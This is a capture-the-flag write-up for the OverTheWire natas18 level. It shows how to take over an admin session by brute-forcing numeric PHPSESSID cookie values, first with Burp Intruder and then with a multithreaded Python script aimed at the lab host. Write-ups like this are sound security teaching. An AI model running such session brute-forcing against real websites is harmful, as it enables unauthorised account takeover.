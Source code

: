 # natas18

Let's open the source code and we see, logging in as admin wont do us good since it is considered unsafe. But we also see that `PHPSESSID` is a cookie which tells us if we logged in as a regular person or admin. Well that's our first clue. We launch BurpSuite, before forwading set an attack using Intruder which checks for `PHPSESSID` from 0 to 640(max limit). <br>
This is how we do it-<br>
1. set `username=admin` and `password=anything` and submit.
2. Forward request once, the next proxy content will show us `PHPSESSID` as 237(maybe different for you).
3. Highlist 237 and send it to Intruder. 
4. In Payloads, set payload as `Numbers` from 0 to 640.
5. In Settings, set Grep match list with suitable content from source code to land a hit if PHPSESSID is correct.
6. Wait a while.

Now you get your `PHPSESSID=`(maybe different for you) which will logs us in as admin and you got your password. <br>

## Approach 2(faster)
Use python coding for the same, with multithreading. This will take almost same time for each thread( i.e. in 1 second earlier if you were getting 1 response, now you get 6)(approx 1 seconds).<br>
So the code is-
```python
import requests
import threading

def try_session_ids(start, end):
	target = 'http://natas18.natas.labs.overthewire.org'
	auth = ('natas18','<password>')
	params = dict(username='admin', password='s3cr3t')
	cookies = dict()

	for s_id in range(start, end):
		print ("Trying with PHPSESSID = " + str(s_id))
		cookies = dict(PHPSESSID=str(s_id))
		r = requests.get(target, auth=auth, params=params, cookies=cookies)
		if "You are an admin" in r.text:
			print (r.text)
			break

threads = []
for i in range(0, 601, 100):
	thread = threading.Thread(target=try_session_ids, args=(i, i+100))
	thread.start()
	threads.append(thread)

for thread in threads:
	thread.join()
```
If you don't get a response here, try from 601 to 640 and you are done. This is really fast approach to this problem.
